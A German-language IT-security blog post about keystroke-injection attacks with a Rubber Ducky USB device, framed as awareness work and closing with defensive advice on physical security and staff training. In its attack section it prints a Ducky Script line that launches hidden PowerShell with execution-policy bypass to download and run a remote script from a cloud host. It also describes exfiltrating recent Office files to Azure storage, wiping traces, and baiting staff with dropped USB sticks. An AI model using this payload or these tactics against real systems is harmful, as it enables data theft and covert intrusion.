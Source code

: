 ```yaml
---
layout: post
title: "Angriffsvektor HID"
date: 2022-08-10 02:00:00 +0200
categories: IT-security
---
```

# Einführung

In Zeiten von Firewall und Anti-Malware Software ist es für Angreifer um einiges
schwerer geworden, Daten von Computersystemen zu stehlen. In der Regel ist es zu
aufwändig, in ein System einzubrechen. Daher gehen ja auch immer wieder Phishing
Mails rum, die Zugangsdaten stehlen wollen, am besten für Clouds wie
Microsoft 365. Wenn man die hat, scheren einen die Sicherheitssysteme auf dem
Client ja nicht mehr. Natürlich gibt es dafür effektive Gegenmaßnahmen wie
Multi-Factor-Authentication mit Azure AD. Auch sollte man seine Mitarbeiter
gegen Phishing sensibilisieren und auch Testangriffe fahren. Dafür gibt es auch
in MS 365 eine Möglichkeit, nämlich die Attack Simulation.

Hier möchte ich einen weiteren Weg vorstellen, wie man einen Client direkt
angreifen kann. Direkt vorweg gesagt, die Methode ist alles andere als neu und
man braucht physischen Zugriff auf das Gerät. Trivial ist sie also auch nicht.

## USB-Speicher

Da sich die IT Admins durchaus bewusst sind, dass man mit USB Speicher sehr
leicht Daten stehlen kann, gibt es Möglichkeiten USB Speicher einzugrenzen. So
kann man z. B. client-seitig USB-Sticks per Software verhindern. Was aber dabei
nicht eingeschränkt wird sind Tastaturen. Die Mitarbeiter sollen ja ergonomisch
arbeiten können. Das bedeutet dann, dass das Notebook erhöht vor einem steht und
sich eine externe Tastatur direkt vor einem befindet.

Jetzt ratet mal, wie die Tastatur angeschlossen ist. Hat wer USB gesagt?
Hundert Gummipunkte.

Natürlich möchte man eine USB Tastatur nicht verhindern, schließlich sollte
Security die Mitarbeiter nicht allzu sehr einschränken. Und das meine ich
wirklich so. Schränken Sicherheitsmaßnahmen zu sehr ein, werden sie nicht
akzeptiert und man findet Wege diese zu umgehen.

## HID und Rubber Ducky

Genug Vorgeplänkel, wie kann man das jetzt für einen Angriff ausnutzen? Die
Tastatur ist ein sogenanntes HID, also Human Interface Device. Es wäre doch
sehr einfach, über diese ein Script auf dem Gerät zu schreiben, dass dann tolle
Sachen macht. Also toll für den Angreifer. Das dauert aber zu lange. Und ehrlich
gesagt kann man dann auch gleich die Seite eines Cloud Speichers öffnen und die
Daten manuell hochladen. Der Angriff muss schneller gehen, so viele Zeit hat man
in der Regel nicht als Angreifer.

Jetzt kommt der Rubber Ducky in's Spiel. Das ist ein kleiner USB-Stick, der
sich aber als HID ausgibt. Er wird also vom System nicht abgewehrt und direkt
aktiviert. Wir haben jetzt also eine Tastatur. Toll. Der Clou ist jetzt, dass
der Angreifer dem Rubber Ducky vorher einprogrammieren kann, was er tun soll.
Und das kann er mit sehr vielen Tastenanschlägen pro Minute.
Schneller als es ein Mensch je können wird.

## Der Angriff

Die Idee ist nun folgende. Wir führen einen kurzen PowerShell Befehl aus, der in
Sekunden ein PowerShell Skript aus der Cloud nachlädt. Einfach über
Start – Ausführen. In der Sprache für den Rubber Ducky (Ducky Script)
sieht das dann so aus:
```
RUN WIN "
powershell -WindowStyle Hidden -Exec Bypass \
"invoke-webrequest https://xyz.blob.core.windows.net/download/s.ps1
-outfile \$env:TEMP\\s.ps1;
While (\$true) {
If ((Test-Path \$env:TEMP\\s.ps1)) { 
& \"\$env:TEMP\\s.ps1 
$EJECT_TIME\"\";
break } }\""
```
Das Script (s.ps1) wird also auch direkt ausgeführt. Ich habe mir mal ein
Script geschrieben, dass einfach alle Dateien in den Ordnern
MyDocuments, Desktop, OneDrive und OneDriveCommercial
sucht und zu Azure hochlädt. Damit es möglichst schnell geht, habe ich die Suche
auf bestimmte Dateitypen eingeschränkt (*.doc*;*.xls*;ppt*;*.msg) und auf
Dateien die in den letzten 30 Tagen erstellt wurden. Die Dateien werden dann
einfach in einen Azure Blob Storage hochgeladen. Theoretisch würde es mir also
auch reichen, wenn nicht ich, sondern der Mitarbeiter selbst den USB-Stick
einsteckt. Vielleicht einfach mal auf dem Parkplatz ein paar liegen lassen und
mit “Kündigungen 2022” beschriften? Natürlich wird er merken, dass etwas nicht
richtig ist, aber dann sind die Daten schon hochgeladen.

Abschließend verwische ich noch meine Spuren auf dem Client, indem ich die
Historie von Start – Ausführen aus der Registry lösche und auch das
heruntergeladene Script. Natürlich hinterlässt man trotzdem Spuren im Netzwerk.
So könnte ein Intrusion Prevention System vielleicht anspringen. Aber das müsste
schon sehr scharf eingestellt sein. Ein paar dutzend Dateien in einen Azure Blob
Storage hochladen ist jetzt auch nicht so auffällig. Trotzdem könnte man mich
als Angreifer evtl. über die Azure Blob Storage Adresse identifizieren. Man
müsste also vielleicht einen anonymen Cloud Speicherdienst verwenden. Aber hier
geht es ja auch nicht um einen echten Angriff, sonder um die Machbarkeit und die 
Sensibilisierung. White Hacking und so. Da ist es mir egal, wenn man mich
hinterher identifizieren kann, so etwas würde ich eh nicht ohne Auftrag machen.

## Den Angriff verhindern

Wie kann man also so einen Angriff verhindern? Wie bereits oben erwähnt,
benötigt es zwei Dinge:

1. Der Computer darf HID nicht blocken
2. Physischen Zugriff auf das Gerät

Aus den oben genannten Gründen würde ich HID nicht blocken. Das ist einfach
nicht praktikabel. Den physischen Zugriff auf ein Gerät sollte ein Angreifer
aber auf keinen Fall bekommen können. Das lässt sich verhindern. Natürlich muss
man mit der Unbedarftheit seiner Mitarbeiter rechnen. Mit Social Engineering und 
Hacking lässt sich eine Menge machen. Und ist man erst einmal am Gerät, reichen
30 Sekunden aus. Dasselbe gilt für den auf dem Parkplatz gefundenen Gerät. Hier
ist die beste Abwehrmaßnahme also Schulung der Mitarbeiter und auch
Angriffstests.

## Abschluss

Ich hoffe euch gezeigt zu haben, dass man Angriffe nicht immer mit technischen
Mitteln abwehren kann. Die tollsten Systeme bringen einem nichts, wenn es an
Grundlagen wie der physischen Sicherheit oder Sicherheitsschulungen fehlt.
Ein Sicherheitskonzept muss immer ganzheitlich betrachtet werden, sonst werden
viele Angriffsvektoren offengelassen.
